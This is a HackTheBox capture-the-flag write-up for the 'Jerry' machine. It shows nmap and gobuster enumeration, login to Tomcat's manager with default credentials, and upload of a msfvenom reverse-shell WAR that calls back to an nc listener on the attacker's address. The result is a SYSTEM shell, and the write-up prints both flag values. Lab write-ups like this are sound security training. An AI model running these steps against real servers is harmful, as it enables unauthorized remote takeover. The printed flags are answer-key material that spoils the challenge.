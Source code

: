 ```yaml
---
Category: B2R
Difficulty: Easy
Platform: HackTheBox
Retired: true
Status: 3. Complete
Tags:
  - WAR
  - default-credentials
  - tomcat
  - weak-credentials
  - Windows
---
```

# Resolution summary

>[!summary]
>- **Default credentials** allowed to obtain administrative access to the **/manager/** area of the **tomcat** server
>- **Arbitrary WAR upload** allowed to obtain a high privileged reverse shell
>- No privilege escalation was required because tomcat was running with high privileges

## Improved skills

- Exploiting tomcat

## Used tools

- nmap
- gobuster
- msfvenom

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Jerry]
└─$ sudo nmap -p- 10.10.10.95 -sS -Pn -oN scans/all-tcp-ports.txt -v
...
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Jerry]
└─$ sudo nmap -p8080 10.10.10.95 -sT -sV -sC -Pn -oN scans/open-tcp-ports.txt -v
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
...
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
...
```

# Enumeration

## Port 8080 - HTTP (Apache Tomcat 7.0.88)

Enumerated port 8080 using a web browser:

![Pasted image 20210514100214.png](../../zzz_res/attachments/Pasted_image_20210514100214.png)

Enumerated web directories and files:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Jerry]
└─$ gobuster dir -u http://10.10.10.95:8080 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -o p80-directories.txt -f -r
...
/docs/                (Status: 200) [Size: 19677]
/manager/             (Status: 401) [Size: 2536] 
/examples/            (Status: 200) [Size: 1285]
```

### Accessed /manager/ using default credentials

![Pasted image 20210514101501.png](../../zzz_res/attachments/Pasted_image_20210514101501.png)

![Pasted image 20210514100642.png](../../zzz_res/attachments/Pasted_image_20210514100642.png)

# Exploitation

## Arbitrary WAR Upload using default credentials

Generated WAR reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jerry/exploit]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=10099 -f war -o maoutis.war
Payload size: 1086 bytes
Final size of war file: 1086 bytes
Saved as: maoutis.war
```

Uploaded and executed the arbitrary WAR:

![Pasted image 20210514102107.png](../../zzz_res/attachments/Pasted_image_20210514102107.png)

![Pasted image 20210514102127.png](../../zzz_res/attachments/Pasted_image_20210514102127.png)

Triggered the reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jerry/exploit]
└─$ curl http://10.10.10.95:8080/maoutis/
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jerry/exploit]
└─$ nc -nlvp 10099

listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.95] 49197
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>cd C:\Users\Administrator\Desktop\flags\
cd C:\Users\Administrator\Desktop\flags\

C:\Users\Administrator\Desktop\flags>whoami && hostname && type 2* && ipconfig
whoami && hostname && type 2* && ipconfig
nt authority\system
JERRY
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.10.10.95
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2

Tunnel adapter isatap.{4C9FEAFE-6811-4938-BFB6-5A3280613EF9}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```

![Pasted image 20210514102714.png](../../zzz_res/attachments/Pasted_image_20210514102714.png)

# Trophy

>[!quote]
>Life is incomplete without enemies
>
>\- Tom & Jerry

>[!success]
>**User.txt**
>7004dbcef0f854e0fb401875f26ebd00

>[!success]
>**Root.txt**
>04a8b36e1545a455393d067e772fe90e

